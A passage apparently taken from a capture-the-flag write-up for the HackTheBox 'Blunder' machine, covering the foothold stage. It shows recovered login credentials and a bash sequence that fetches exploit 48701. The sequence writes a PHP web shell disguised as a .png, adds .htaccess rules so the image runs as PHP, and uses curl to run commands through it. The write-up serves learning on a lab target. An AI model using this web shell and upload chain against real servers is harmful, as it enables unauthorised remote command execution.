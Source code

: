 Nice! It looks like the login is `fergus/RolandDeschain`:

![web3](./blunder/web3.png)

Now try exploit 48701 with the correct username/password:

```bash
# copy over the exploit
searchsploit -m 48701
cp 48701.txt 48701.py
# set the following:
# url = 'http://10.10.10.191'
# username = 'fergus'
# password = 'RolandDeschain'
vim 48701.py
# make the exploit payloads
echo -e '<?php echo shell_exec($_REQUEST["c"]); ?>' > evil.png
echo "RewriteEngine off" >> .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
# run the exploit
python2.7 48701.py
# test the exploit
curl -s -G --data-urlencode 'c=whoami' http://10.10.10.191/bl-content/tmp/temp/evil.png
```

![user1](./blunder/user1.png)
